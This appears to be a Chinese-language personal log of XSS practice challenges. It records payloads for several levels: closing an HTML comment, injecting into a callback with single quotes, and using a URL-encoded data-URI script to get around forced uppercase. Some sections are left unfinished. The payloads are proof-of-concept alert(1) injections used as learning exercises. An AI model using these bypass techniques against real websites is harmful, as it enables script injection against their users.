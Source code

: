 这里的方法是输入一个Comment也就是注释标签，例如

```
Commnet#test
```

就会生成一个

```
<!--test-->
```

这样，我们只要闭合了前面的`<!--`，后面的部分就能自由发挥了

```
Comment#--><script>alert(1)</script>
```



![](xss练习记录\27.png)

## callback

好吧，这题本来不应该没想到的，感觉潜意识里一直想用双引号来闭合，倒是忘了单引号

最后payload

```
'#';alert(1);//
```

![](xss练习记录/28.png)


## skandia

把所有输入转换成了大写的

一开始是想从外部服务器引入js文件的，后来发现好像不支持连外网

于是看了writeup之后发现是利用data协议，进行html编码绕过大写

payload

```
");</script><script  src=data:text/html,%61%6c%65%72%74(1) ></script><script>//
```
![](xss练习记录/29.png)

## tempalte

有点复杂，先空着



## json 2

感觉做这个之前还是有一个逻辑没理清，就是解码顺序
